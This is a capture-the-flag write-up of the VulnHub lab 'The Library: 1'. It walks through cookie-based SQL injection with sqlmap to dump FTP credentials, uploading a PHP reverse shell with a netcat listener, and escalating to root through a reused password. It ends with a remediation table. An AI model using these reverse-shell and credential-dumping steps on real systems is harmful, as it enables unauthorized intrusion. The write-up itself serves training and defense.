


# The Library: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.103 |
| **Difficulty** | Beginner |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/the-library1-vulnhub-walkthrough/) |

## Attack Summary

The Library: 1 is a beginner-level VulnHub machine. The attack chain involves SQL injection via a cookie parameter to extract FTP credentials, abusing writable FTP access to the web root to upload a PHP reverse shell, and reusing a password discovered in a PHP configuration file to escalate to root.

## Methodology

1. Network discovery with netdiscover and service enumeration with nmap
2. Web content discovery with dirb to locate hidden PHP pages
3. Cookie parameter interception with Burp Suite to identify injection point
4. SQL injection via sqlmap to dump database credentials
5. FTP login with dumped credentials and upload of PHP reverse shell
6. Reverse shell execution and shell stabilization
7. Password reuse from database config file to escalate to root via `su`

## Step 1: Network Scanning

```bash
netdiscover -r 192.168.1.0/24
nmap -A 192.168.1.103
```

Open ports discovered:
- **21/tcp** — FTP (vsftpd)
- **80/tcp** — HTTP (Apache)


## Step 2: Web Enumeration

Browsing to `http://192.168.1.103` showed no useful content. A directory brute-force with dirb uncovered a PHP endpoint:

```bash
dirb http://192.168.1.103 -X .php
```

Found: `/library.php` — displays a list of country names and sets a `lastviewed` cookie.


## Step 3: Cookie-Based SQL Injection

Intercept the request to `/library.php` in Burp Suite. The `lastviewed` cookie holds a value that appears to encode the last-viewed country. Decode it in Burp Decoder to confirm it is injectable, then save the raw request to a file and mark the injection point:

```
# Save request to file.txt in Burp, place * at the cookie value
lastviewed=*
```

Run sqlmap against the saved request:

```bash
# Enumerate databases
sqlmap -r file.txt --dbs --batch --risk 3 --level 5

# Dump all data from the library database
sqlmap -r file.txt -D library --dump-all --batch
```

Credentials extracted from the database:
- **Username:** `globus`
- **Password:** `AroundTheWorld`


## Step 4: FTP Access and Shell Upload

Log in to FTP with the credentials found via SQL injection. The FTP user has write access to the Apache web root:

```bash
ftp 192.168.1.103
# Username: globus
# Password: AroundTheWorld

cd /var/www/html
ls -la
```

Prepare a PHP reverse shell on the attacker machine:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# Edit shell.php: set $ip to your attacker IP and $port to 1234
```

Upload and set permissions via FTP:

```bash
# Inside ftp session
put shell.php
chmod 777 shell.php
```



## Step 5: Reverse Shell

Start a netcat listener on the attacker machine:

```bash
nc -lvp 1234
```

Trigger the shell by browsing to:

```
http://192.168.1.103/shell.php
```

Stabilize the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

## Step 6: Privilege Escalation

Read the PHP database configuration file in the web root:

```bash
cat /var/www/html/library.php
```

The file contains database credentials in plaintext. The root account reuses the password `password`. Switch to root:

```bash
su root
# Password: password
id
```



## Lessons Learned

- SQL injection via session cookies is commonly overlooked during testing; all user-controlled input must be validated, including cookies.
- FTP with write access to the web root is dangerous; uploading executable scripts leads to remote code execution.
- Storing database credentials in web-accessible PHP files and reusing those passwords for system accounts multiplies the impact of a single disclosure.

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection in cookie | Use parameterized queries; validate and sanitize all cookie values |
| FTP write access to web root | Restrict FTP users to isolated home directories; disable write access to document roots |
| Plaintext credentials in PHP | Use environment variables or a secrets manager for database credentials |
| Password reuse (DB/root) | Enforce unique passwords; use a password manager; apply principle of least privilege |
| Unrestricted PHP execution | Disable PHP execution in upload directories; whitelist allowed file types |
